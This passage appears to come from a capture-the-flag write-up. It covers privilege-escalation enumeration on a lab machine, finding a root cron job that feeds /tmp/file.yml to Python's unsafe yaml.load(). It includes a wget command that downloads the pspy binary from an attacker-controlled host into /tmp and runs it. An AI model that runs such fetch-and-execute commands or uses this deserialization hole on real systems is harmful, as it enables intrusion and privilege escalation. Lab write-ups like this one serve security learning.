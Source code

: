 Found `scripts` directory.

**`/opt/scripts`:**
```
imsau@enpass:~$ ls -lah /opt/scripts/
total 12K
drwxr-xr-x 2 root root 4.0K Jan 31  2021 .
drwxr-xr-x 3 root root 4.0K Jan 31  2021 ..
-r-xr-xr-x 1 root root  250 Jan 31  2021 file.py
```

**`/opt/scripts/file.py`:**
```py
#!/usr/bin/python
import yaml


class Execute():
	def __init__(self,file_name ="/tmp/file.yml"):
		self.file_name = file_name
		self.read_file = open(file_name ,"r")

	def run(self):
		return self.read_file.read()

data  = yaml.load(Execute().run())
```

What this python script does is **reading a YAML file from `/tmp/file.yml`, then parse the data to `yaml`'s `load()` method.**

**`pspy`:** 
```
┌──(root🌸siunam)-[/opt/pspy]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
imsau@enpass:~$ wget http://10.9.0.253/pspy64 -O /tmp/pspy;chmod +x /tmp/pspy

imsau@enpass:~$ /tmp/pspy
[...]
2023/01/01 07:04:01 CMD: UID=0    PID=1577   | /usr/sbin/CRON -f 
2023/01/01 07:04:01 CMD: UID=0    PID=1576   | /usr/sbin/CRON -f 
2023/01/01 07:04:01 CMD: UID=0    PID=1579   | 
2023/01/01 07:04:01 CMD: UID=0    PID=1578   | /bin/sh -c cd /opt/scripts && sudo /usr/bin/python /opt/scripts/file.py && sudo rm -f /tmp/file.yml 
2023/01/01 07:04:01 CMD: UID=0    PID=1581   | 
2023/01/01 07:04:01 CMD: UID=0    PID=1580   | 
2023/01/01 07:04:01 CMD: UID=0    PID=1582   | 
2023/01/01 07:04:02 CMD: UID=0    PID=1583   | sudo chown root:root /tmp/file.yml 
2023/01/01 07:04:02 CMD: UID=0    PID=1584   | /usr/bin/python /opt/scripts/file.py 
[...]
2023/01/01 07:05:01 CMD: UID=0    PID=1589   | /usr/sbin/CRON -f 
2023/01/01 07:05:01 CMD: UID=0    PID=1588   | /bin/sh -c cd /tmp && sudo chown root:root /tmp/file.yml 
2023/01/01 07:05:01 CMD: UID=0    PID=1587   | /usr/sbin/CRON -f 
2023/01/01 07:05:01 CMD: UID=0    PID=1586   | /usr/sbin/CRON -f 
2023/01/01 07:05:01 CMD: UID=0    PID=1590   | /bin/sh -c cd /opt/scripts && sudo /usr/bin/python /opt/scripts/file.py && sudo rm -f /tmp/file.yml 
2023/01/01 07:05:01 CMD: UID=0    PID=1591   | sudo chown root:root /tmp/file.yml 
2023/01/01 07:05:02 CMD: UID=0    PID=1592   | chown root:root /tmp/file.yml 
2023/01/01 07:05:02 CMD: UID=0    PID=1593   | sudo /usr/bin/python /opt/scripts/file.py 
[...]
```
